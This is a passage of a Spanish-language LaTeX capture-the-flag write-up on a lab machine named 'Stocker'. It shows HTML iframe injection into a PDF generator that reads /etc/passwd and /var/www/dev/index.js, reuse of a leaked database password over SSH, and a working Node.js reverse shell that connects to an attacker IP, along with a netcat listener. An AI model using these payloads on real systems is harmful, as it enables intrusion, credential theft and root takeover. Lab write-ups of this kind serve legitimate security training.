    \begin{lstlisting}[language=html, caption=Inyectamos código HTML jugando con width y height para conseguir ver mediante el PDF archivos de la maquina]
    
    <iframe src=/etc/passwd> width=1000px  height=1000px </iframe>
    \end{lstlisting}

    \begin{figure}[h] % Con "h" indicamos que nos coloque la imagen abajo del texto
        \centering
        
\includegraphics[width=1\textwidth]{images/root-angoose.png}
        \caption{Archivos de la máquina con usuarios} % Indica la el número de la figura
    \end{figure}\par\vspace{1cm}

    Ok podemos ver dos usuarios con sus respectivas rutas, sabiendo que {\textbf{\color{red}Stocker}} es una máquina \textbf{Linux}, como sabemos que por detras esta implementado Node.js podemos tratar de acceder a la ruta \textbf{/var/www/dev}, buscando un archivo especifico, cuando se implementa Node.js, como el archivo \textbf{index.js}.

    \begin{lstlisting}[language=html, caption=Inyectamos código HTML en BurpSuite para conseguir ver mediante el PDF archivos de la máquina]
    
    Seguimos jugando con el width y height para visualizar el archivo

    -------------------------------------------------------------------------------

    <iframe src=file:///var/www/dev/index.js> width=1000px  height=1000px </iframe>
    \end{lstlisting}

    \begin{figure}[h] % Con "h" indicamos que nos coloque la imagen abajo del texto
        \centering
        
\includegraphics[width=0.86\textwidth]{images/angoose-passwd.png}
        \caption{Archivos de la máquina con usuarios} % Indica la el número de la figura
    \end{figure}\par\vspace{10cm}


    Encontramos un password {\textbf{\color{red}IHeardPasshrasesArePrettySecure}} que pertenece a una base de datos , precisamente de mongodb.

    \subsection{Escalada de privilegios}

    Primero intentemos autenticarnos de forma remota por ssh, usando el user (\textbf{angoose}) que obtuvimos antes.

    \begin{lstlisting}[language=python, caption=Conexión remota por ssh]
    
    ssh angoose@stocker.htb

    -------------------------------------------------------------------------------

    password: IHeardPasshrasesArePrettySecure
    \end{lstlisting}

    \begin{figure}[h] % Con "h" indicamos que nos coloque la imagen abajo del texto
        \centering
        
\includegraphics[width=0.5\textwidth]{images/angoose-id.png}
        \caption{Acceso a la máquina} % Indica la el número de la figura
    \end{figure}\par\vspace{1cm}

    Si revisamos los permisos privilegios con \textbf{Sudo -l} vemos que podemos ejecutar node y los scripts que termine con \textbf{.js}

    \begin{figure}[h] % Con "h" indicamos que nos coloque la imagen abajo del texto
        \centering
        
\includegraphics[width=0.5\textwidth]{images/angoose-sudo.png}
        \caption{Tenemos permiso para ejecutar node y scripts terminados en .js} % Indica la el número de la figura
    \end{figure}\par\vspace{1cm}

    Sabiendo que podemo ejecutar archivos con extension \textbf{.js}, podemos hacer un Path Traversal donde podremos conectarnos por \textbf{NetCat} por el puerto \textbf{8001}.

    Vamos a crear un archivo con extension .js donde pondremos adentro una \textbf{Reverse Shell}, nos guiamos por esta por esta página: \href{https://www.revshells.com/}{\textbf{\color{blue}revshells}}.

    \begin{lstlisting}[language=python, caption=Archivo .js con reverse shell con escucha por el puerto 8001]
    
    nano stocker.js
  
    (function(){
    var net = require("net"),
    cp = require("child_process"),
    sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(8001, "10.10.14.152", function(){
    client.pipe(sh.stdin);
    sh.stdout.pipe(client);
    sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
    })();
    \end{lstlisting}
    
    \vspace{2.5cm}

    Luego en nuestra máquina de atacante, abrimos una terminal y nos ponemos en escucha por el puerto 8001

    \textbf{ nc -lvnp 8001}

    \vspace{5cm}

    \begin{figure}[h] % Con "h" indicamos que nos coloque la imagen abajo del texto
        \centering
        
\includegraphics[width=1\textwidth]{images/root.png}
        \caption{Acceso como root} % Indica la el número de la figura
    \end{figure}\par\vspace{0cm}

    Probamos y listo ya tenemos la \textbf{Flag}.

\end{document}
